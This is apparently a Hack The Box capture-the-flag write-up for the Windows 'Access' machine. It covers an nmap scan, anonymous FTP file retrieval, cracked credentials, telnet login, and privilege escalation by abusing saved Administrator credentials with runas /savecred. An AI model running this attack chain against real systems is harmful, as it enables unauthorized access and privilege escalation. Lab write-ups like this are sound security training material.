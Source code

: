```yaml
---
title: "Access - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Access
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## Access
![](https://kar0nx.github.io/assets/images/writeup/adef7ad3d015a1fbc5235d5a201ca7d1.webp)
 
## Reconnaissance

IP: 10.10.10.98
### NMAP

```
nmap -T4 -p- -A 10.10.10.98
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 07:45 EST
Nmap scan report for 10.10.10.98
Host is up (0.031s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)                                                                                            
No exact OS matches for host (test conditions non-ideal).                                                               
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: 27s

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   31.42 ms 10.10.14.1
2   31.65 ms 10.10.10.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.46 seconds
```

Nmap shows 3 open ports 21 - FTP, 23 - telnet, and 80 - http.
Site is simple Windows ISS, so enumerate ftp.

## FTP

```
ftp 10.10.10.98
	anonymous
	anonymous
```

Anonymous login works great, and we have 2 files here, let's download it and check

```
binary 
cd backup
get backup.mdb
cd ..
cd engineer
get "access control.zip"
```

After long exploring backup db, I found credentials 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308134508.png)

No one works with telnet but one is password for:

```
access control.zip  -- access4u@security
```

let's load output into outlook and explore. I found that password for security account has been changed

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308135350.png)

## Gaining Access
### Telnet

```
telnet 10.10.10.98
	security
	4Cc3ssC0ntr0ller
```

I manage to log in via telnet what gives low-level access as security user

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308135559.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308140051.png)

We can grab first flag

```
type C:\Users\security\Desktop\user.txt
```

## Privilege Escalation

After gaining access to the machine, I looked for potential ways to escalate privileges. I discovered that I could use runas to run commands as the Administrator user by utilizing the /savecred option.

I used the following runas command to execute a command as Administrator and save the credentials:

```
cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

```
c:\windows\system32\runas.exe /user:ACCESS\Administrator /savecred "c:\windows\system32\cmd.exe /c TYPE c:\users\administrator\desktop\root.txt > c:\users\security\root.txt"
```

This command runs as the Administrator user and saves the output of root.txt to a location where the security user can access it.

After that we can type root.txt

```
C:\Users\security>type root.txt
```
